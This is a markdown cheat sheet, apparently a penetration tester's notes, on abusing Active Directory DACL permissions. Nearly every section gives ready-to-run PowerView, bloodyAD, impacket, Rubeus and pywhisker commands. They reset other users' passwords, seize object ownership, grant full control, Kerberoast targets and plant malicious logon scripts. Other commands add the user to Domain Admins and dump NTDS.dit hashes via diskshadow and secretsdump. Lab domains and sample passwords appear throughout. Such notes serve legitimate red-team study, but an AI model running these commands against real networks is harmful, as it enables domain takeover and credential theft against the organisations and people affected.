

# DACL Abuses

## Table of Contents
- [ACL Basics](#acl-basics)
- [PowerView ACL Abuse Summary](#powerview-acl-abuse-summary)
- [Enumerating ACLs](#enumerating-acls)
  - [PowerView](#powerview)
  - [Get-ADUser and Get-Acl](#get-aduser-and-get-acl)
  - [SharpHound](#sharphound)
- [GenericAll](#genericall)
- [GenericWrite](#genericwrite)
  - [GenericWrite on Group](#genericwrite-on-group)
  - [Write Permission on scriptPath Attribute](#write-permission-on-scriptpath-attribute)
- [WriteOwner](#writeowner)
  - [Linux Workflow](#linux-workflow)
  - [PowerShell Workflow](#powershell-workflow)
  - [Taking Over a Group](#taking-over-a-group)
- [WriteDacl](#writedacl)
  - [User Has WriteDacl on Another User](#user-has-writedacl-on-another-user)
  - [User Has WriteDacl on Another Group](#user-has-writedacl-on-another-group)
- [ForceChangePassword](#forcechangepassword)
- [AddSelf and Self-Membership](#addself-and-self-membership)
- [Resource-Based Constrained Delegation](#resource-based-constrained-delegation)
- [SIDHistory Injection](#sidhistory-injection)
- [Post-Abuse Hash Dumping](#post-abuse-hash-dumping)

## ACL Basics
- ACL contains ACEs.
- Each ACE is made up of four parts:
  1. **SID** of the user/group that has access to the object
  2. **type**, allowed - access denied - system audit
  3. **flags** that defines the if child objects inherits the ace or not
  4. [access mask](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/7a53f60e-e730-4dfe-bbe9-b21b62eb790b?redirectedfrom=MSDN) 32-bit value that defines the rights granted to an object

## PowerView ACL Abuse Summary
- `ForceChangePassword` abused with `Set-DomainUserPassword`
- `Add Members` abused with `Add-DomainGroupMember`
- `GenericAll` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `GenericWrite` abused with `Set-DomainObject`
- `WriteOwner` abused with `Set-DomainObjectOwner`
- `WriteDACL` abused with `Add-DomainObjectACL`
- `AllExtendedRights` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `AddSelf` abused with `Add-DomainGroupMember`



## Enumerating ACLs

### PowerView
- Wildcard enumerations:

```powershell
Find-InterestingDomainAcl
```

- Targeted (with a user we own):

```powershell
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

### Get-ADUser and Get-Acl
1. Get all domain users.

```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```

2. Loop through them one by one and map the available ACLs give to our user.

```powershell
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```

### SharpHound

```powershell
.\SharpHound.exe --domain minyawy.local -c all --zipfilename houndata2.zip
```

## GenericAll
**Description:** The attacker has full control over the object.

**Exploit:**
- Modify the target user's attributes.
- Replace their servicePrincipalName (SPN) for Kerberoasting.
- Reset their password directly.

**Tool Example:** PowerView, Set-DomainUserPassword

### GenericAll Targeted Kerberoasting
1. Setup credentials.
2. Set an SPN to the target user.

```powershell
Set-DomainObject -Credential $creds -Identity targetuser -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
```

3. Request a TGS for the target user using Rubeus.

```powershell
./rubeus.exe kerberoast /user:targetuser /nowrap
```

#### Cleanup - Removing SPN

```powershell
Set-DomainObject -Credential $creds -Identity adunn -Clear serviceprincipalname -Verbose
```

#### Cleanup - Removing Ourself From Group

```powershell
Remove-DomainGroupMember -Identity "target Group" -Members 'targer user' -Credential $creds -Verbose
```

## GenericWrite
**Description:** The attacker can write some properties of the object.

**Exploit:**
- Add `msDS-AllowedToActOnBehalfOfOtherIdentity` (for RBCD).
- Modify `scriptPath` or `userAccountControl`.

**Tool Example:** PowerView, Rubeus, SharpHound

### GenericWrite on Group
1. You can setup the credentials or use **runas** to open a new powershell with the user that has the ACL.

```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

```powershell
runas /netonly /user:INLANEFREIGHT\WLEY powershell.exe
```

2. List the Groups we are in (For verification).

```powershell
Get-DomainGroup -MemberIdentity myuser | select samaccountname
```

3. List the members of target group (For verification).

```powershell
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```

4. Add ourself to the target group.

```powershell
Add-DomainGroupMember -Identity 'Target Group' -Members 'target user' -verbose # runas session
Add-DomainGroupMember -Identity 'target group' -Members 'myuser' -verbose -Credentials $creds
```

5. Verify again with step 2 and 3.

### Write Permission on scriptPath Attribute
- When we can overwrite this attribute we can put any path to a script that will be ran by the user who we hold write permission over every time he logs in.

#### Enumeration - Linux (BloodyAD)
- Get writable attributes:

```bash
BloodyAD --host garfield.htb --domain garfield.htb -u myuser -p mpassdadwda@#1 get writable --detail
```

- If we found scriptPath for any user account, we can try to write path to malicious logon script:

```bash
bloodyAD --host $DOMAIN -u $USER -p "$PASS" set object "CN=Liz Wilson,CN=Users,DC=garfield,DC=htb" scriptPath -v malicous.bat
```

- Check for the changes - nxc:

```bash
nxc ldap DC01.garfield.htb -u j.arbuckle -p 'Th1sD4mnC4t!@1978' --query "(sAMAccountname=l.wilson)" scriptPath
```

## WriteOwner
**Description:** Allows attacker to change ownership of an object.

**Exploit:** Become the owner of an object → modify DACL to give themselves GenericAll.

**Tool Example:** PowerView, Set-DomainObjectOwner, impacket-owneredit, impacket-dacledit, pywhisker.py, gettgtpkinit.py

### Linux Workflow
1. Takeover the ownership over the object using `Impacket-owneredit`.

```bash
impacket-owneredit -action write -new-owner 'owned_user' -target 'vuln_obj' 'gamin.local'/'owner_user':'MyPa$$word123'
```

2. Edit DACL to gain `FullControl` over that user using `dacledit`.

```bash
impacket-dacledit -action 'write'  -rights 'FullControl' -principal 'ryan' -target 'CA_SVC' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
```

3. Now we can do _**Shadow Credentials attack**_ using **pywhisker** --action add/clear/list/...

- 'Stealthy way of compromising object without changing password'

```bash
pywhisker.py -d 'domail.local' -u 'myuser' -p 'Compl3x2Pa$$' --target 'targetUser' --action 'add' # this Generate a key pair and link them to the target user's 'msDS-KeyCredentialLink'
```

4. After creating a user certificate (test1.pfx file) that is encrypted with the password we can get from `pywhisker` we use these to get a TGT.

```bash
gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass xl6RyLBLqdhBlCTHJF3R domain.local/user2 user2.ccache
```

5. Lastly we can use this TGT to get the NTHASH of the target user using `**getnthash.py**`.

```bash
export KRB5CCNAME=user2.ccache
getnthash.py -key <minikerberos key from gettgtokinit.py> domail.local/target_user
```

### PowerShell Workflow

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Set-DomainObjectOwner -Credential $Cred -TargetIdentity dfm -OwnerIdentity harmj0y
Add-DomainObjectAcl -Credential $Cred -TargetIdentity harmj0y -Rights All
Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
Get-DomainSPNTicket -Credential $Cred harmj0y | fl
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity andy -AccountPassword $UserPassword -Credential $Cred

# cleanup
Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname
Remove-DomainObjectAcl -Credential $Cred -TargetIdentity harmj0y -Rights All
```

### Taking Over a Group

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Set-DomainObjectOwner -Credential $Cred -TargetIdentity "Domain Admins" -OwnerIdentity harmj0y
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Domain Admins" -Rights WriteMembers
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred
Get-DomainGroupMember -Identity 'Domain Admins'

# cleanup
Remove-DomainObjectAcl - Credential $cred -TargetIdentity "Domain Admins" -Rights WriteMembers
```

## WriteDacl
> **Description:** When an object has WriteDACL on another object, he can add ACEs to this object like adding permissions and granting All rights on him.

### User Has WriteDacl on Another User
1. Granting Full permissions over the user.

- Linux `impacket-dacledit`:

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'myuser' -target-dn 'CN=targetuser,CN=Users,DC=ignite,DC=local' 'domain.local'/'myuser':'myPassword@1' -dc-ip 192.168.1.3
```

- Windows `PowerView`:

```powershell
powershell -ep bypass
Import-Module .PowerView.ps1
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "targetuser" -PrincipalIdentity "myuser"
```

2. **We can now `change password` / `targeted kerberoasting`.**

#### Change Password
- Linux `bloodyAD`:

```bash
bloodyAD --host "192.168.1.3" -d "domain.local" -u "myuser" -p "myPassword@1" set password "targetuser" "newPassword@789"
```

- Windows `PowerView`:

```powershell
Set-DomainObject -Identity 'aarti' -Set @{serviceprincipalname='nonexistent/hacking'}
Get-DomainUser 'aarti' | Select serviceprincipalname
$User = Get-DomainUser 'aarti'
$User | Get-DomainSPNTicket
```

#### Targeted Kerberoasting
- Linux `targetedKerberoast.py`:

```bash
targetedKerberoast.py --dc-ip '192.168.1.3' -v -d 'domain.local' -u 'myuser' -p 'myPassword@1'
```

- Windows `PowerView`:

```powershell
Set-DomainObject -Identity 'aarti' -Set @{serviceprincipalname='nonexistent/hacking'}
Get-DomainUser 'aarti' | Select serviceprincipalname
$User = Get-DomainUser 'aarti'
$User | Get-DomainSPNTicket
```

### User Has WriteDacl on Another Group
1. Granting Full Permissions over the target group.

- Linux `impacket-dacledit`:

```bash
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'myuser' -target-dn 'CN=Target Group,CN=Users,DC=ignite,DC=local' 					  'domain.local'/'mysuer':'myPassword@1' -dc-ip 192.168.1.3
```

- Windows `PowerView`:

```powershell
powershell -ep bypass
Import-Module .PowerView.ps1
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Target Group" -PrincipalIdentity "myuser"
```

2. Adding a member to this group so we grant/ inherit that group permissions.

- Linux `bloodyAD`:

```bash
bloodyAD --host "192.168.1.3" -d "domain.local" -u "myuser" -p "myPassword@1" add groupMember "Target Group" "myuser" #we can any user we have control on
```

- Windows `PowerView`:

```bash
net group "Target Group" myuser /add /domain
```

## ForceChangePassword
**Description**
- If a user has ForceChangePassword dacl over another user/svc account, he can change Force Change their Password, Pretty obvious Right! 😂

**Exploit**
- We can use LINUX -> `net rpc`, `BloodyAD`, `impacket-changepasswd`
- Windows -> `Powerview.ps1`, `mimikatz`

1. **`net rpc`**

```bash
net rpc password target_user 'Password@987' -U domain.local/myuser%'Password@1' -S 192.168.1.48
```

2. **`BloodyAD`**

```bash
bloodyAD --host "192.168.1.48" -d "domain.local" -u "myuser" -p 'myPassword@1' set password "target" 'newPassword@987'
```

3. **`impacket-changepasswd`**

```bash
impacket-changepasswd domain.local/target_user@192.168.1.48 -newpass 'Password@1234' -altuser domain.local/myuser -altpass 'Password@1' -reset
```

4. **`Powerview`**

```powershell
powershell -ep bypass
Import-Module .PowerView.ps1
$NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
Set-DomainUserPassword -Identity 'target_user' -AccountPassword $NewPassword
```

5. **`mimikatz`**

```bash
lsadump::setntlm /server:domain.local /user:new_user /password:Password@9876
```

## AddSelf and Self-Membership
**Self-Membership / Add Member to Group**

**Description:** If an attacker has WriteProperty on a group object.

**Exploit:** Add themselves to privileged groups (e.g., Domain Admins).

**Tool Example:** Add-DomainGroupMember, net group

**AddSelf Description**

Attackers can escalate privileges by adding themselves to privileged groups like Domain Admins or Backup Operators. As a result, they gain administrative control, move laterally within the network, access sensitive systems, and maintain persistence. in Addition user can later perform kerberoasting

### Exploit
1. **`net rpc`**

```bash
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

2. **`pth-net`**

```bash
pth-net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
```

- To verify:

```bash
net rpc group members "TargetGroup" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

3. **`BloodyAD`**

```bash
bloodyAD --host "192.168.1.48" -d "DOMAIN.DOM" -u "our-user" -p "Password@1" add groupMember "target group" "our-user"
```

4. **`Powerview`**

```powershell
powershell -ep bypass
Import-Module .PowerView.ps1
Add-DomainGroupMember -Identity "Domain Admins" -Members "our-user" -Verbose
```

- To verify:

```powershell
Get-DomainGroupMember -Identity 'Domain Admins'
```

## Resource-Based Constrained Delegation
**Description:** Abuse when attacker controls a machine account and has GenericWrite or WriteProperty over a target computer account.

**Exploit:**
- Configure RBCD to impersonate a privileged user to the computer.
- Combine with S4U2Self and S4U2Proxy ticket attacks.

**Tool Example:** Rubeus, PowerMad, Impacket

## SIDHistory Injection
**Description:** Add a SID of a privileged group (e.g., Domain Admins) to a user's SIDHistory.

**Exploit:** Often requires admin on the DC or replication rights.

**Tool Example:** mimikatz, Golden Ticket, DCShadow

## Post-Abuse Hash Dumping

### If We Ended Up in a Domain Admin Group

```bash
impacket-secretsdump 'ignite.local'/'shreya':'Password@1'@'192.168.1.48'
```

### If We Landed in a Backup Operator Group
We can dump the hashes from `ntds.dit`.

1. Create a `.dsh` file (distributed shell).

```dsh
set context persistent nowriters
add volume c: alias obad
create
expose %obad% z:
```

2. Use `unix2dos` to make it windows compatible format.

```bash
unix2dos obad.dsh
```

3. Upload it and on the target machine execute this.

```powershell
diskshadow /s obad.dsh
```

4. Get the `ntds.dit` into a Temp dir.

```powershell
robocopy /b z:windowsntds . ntds.dit
```

5. Save the SYSTEM registry hive.

```powershell
reg save hklm\system C:\Temp\system
```

6. Download both and uste `impacket-secretdump` to do the job.

```bash
impacket-secretsdump -ntds ntds.dit -system system local
```
